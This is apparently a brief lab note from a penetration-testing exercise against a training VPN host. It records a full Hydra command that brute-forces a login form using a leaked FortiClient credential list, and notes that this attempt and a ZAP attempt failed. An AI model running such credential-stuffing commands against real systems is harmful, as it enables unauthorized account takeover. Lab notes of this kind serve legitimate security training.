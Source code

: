 # Hydra `fortinet-2021_clean-combos.txt`
- Running leaked forticlient creds
```bash
hydra -C /opt/wordlist/seclist/Passwords/Leaked-Databases/fortinet-2021_clean-combos.txt -f vpn.inlanefreight.local  http-post-form "/verify.php:username=^USER^&credential=^PASS^&submit=:F=Access denied"
```
- Finished on 82252
![[Pasted image 20240902120246.png]]
- didn't give us anything...
![[Pasted image 20240903154615.png]]
# ZAP
- `admin` and passwords from `fortinet-2021_passwords.txt` didn't give anything
